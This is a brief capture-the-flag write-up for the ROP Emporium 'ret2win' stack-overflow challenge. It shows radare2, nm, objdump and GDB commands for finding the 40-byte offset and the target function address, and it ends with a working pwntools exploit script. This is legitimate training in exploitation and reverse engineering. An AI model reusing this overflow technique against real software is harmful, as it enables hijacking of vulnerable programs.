



# ret2win

Link: https://ropemporium.com/challenge/ret2win.html

--------------------------

List functions with:

```
nm ret2win | grep 't'
```



Or with radare:

```
r2 ret2win
aaaa
afl
```


Then we can disassembly this function using again radare:

```
r2 ret2win
aaaa
s sym.ret2win
pdf
```



We can disassembly the main function too:


I will open GDB with GEF script:

```
gdb -q ./ret2win
```

Using Python we create characters to test when it crashes:


With 41 we overwrite only 1 byte, so the offset is 40:



We can find the function address with:

```
objdump -D ret2win | grep ret2win
```


Note: Also using gdb (*info functions*).

The exploit code is then:

```
from pwn import *

context(arch='amd64', os='linux')
p = process('./ret2win')

junk =    "A"*40
ret2win = 0x0000000000400811
rop = junk + p64(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```


------------------------

References:

- https://medium.com/@jacob16682/reverse-engineering-using-radare2-588775ea38d5
